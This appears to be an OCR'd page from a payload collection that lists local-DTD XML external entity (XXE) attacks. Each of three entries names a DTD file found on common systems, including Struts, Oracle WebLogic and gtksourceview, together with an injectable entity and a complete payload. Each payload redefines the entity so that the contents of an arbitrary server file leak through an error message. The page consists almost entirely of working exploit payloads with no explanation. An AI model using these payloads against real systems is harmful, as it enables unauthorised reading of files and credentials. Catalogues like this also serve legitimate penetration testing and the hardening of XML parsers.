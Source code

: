 **Injectable entity:** `%AttributeName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/struts/struts-config_1_1.dtd">

    <!ENTITY % AttributeName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/u01/oracle/wlserver/server/lib/consoleapp/webapp/WEB-INF/struts-config_1_2.dtd`

**Injectable entity:** `%AttributeName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///u01/oracle/wlserver/server/lib/consoleapp/webapp/WEB-INF/struts-config_1_2.dtd">

    <!ENTITY % AttributeName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```
 ---

**DTD File:** `/usr/share/gtksourceview-4/language-specs/language.dtd`

**Injectable entity:** `%itemattrs`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/gtksourceview-4/language-specs/language.dtd">

    <!ENTITY % itemattrs '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```
